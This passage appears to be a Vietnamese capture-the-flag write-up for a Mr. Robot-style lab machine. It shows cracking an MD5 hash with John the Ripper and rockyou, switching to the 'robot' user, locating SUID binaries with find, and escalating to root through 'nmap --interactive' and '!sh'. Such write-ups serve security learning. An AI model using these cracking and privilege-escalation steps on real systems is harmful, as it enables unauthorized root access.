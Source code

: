 sử dụng lệnh john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash 

<img width="909" height="235" alt="image" src="https://github.com/user-attachments/assets/88551864-3ba2-4b13-b3b2-0ae54fcda1cc" />

và tôi đã có được pass abcdefghijklmnopqrstuvwxyz

quay lại shell tôi nhập lệnh su robot và lấy cờ 2

<img width="539" height="228" alt="image" src="https://github.com/user-attachments/assets/69609003-5796-4578-b63a-93e4698e7fe3" />

sau đó tôi tìm cách leo lên quyền root 

find / -perm -4000 2>/dev/null

<img width="696" height="396" alt="image" src="https://github.com/user-attachments/assets/86358274-4d4f-4e1f-a73d-cf4b998b0d9b" />

tìm thấy đường dẫn file nmap 

sử dụng GTFOBins để tìm cách 

<img width="1216" height="664" alt="image" src="https://github.com/user-attachments/assets/ef902c50-8d9c-42e8-8a47-7b8da7b8214b" />

nmap --interactive

!sh

<img width="508" height="186" alt="image" src="https://github.com/user-attachments/assets/58382ec9-9546-415b-87bf-44ac1fe04456" />

vậy là đã có được quyền root 

<img width="487" height="173" alt="image" src="https://github.com/user-attachments/assets/47a6282b-3944-421c-add0-7c834c7bc9db" />

vậy là đã có được cờ 3 
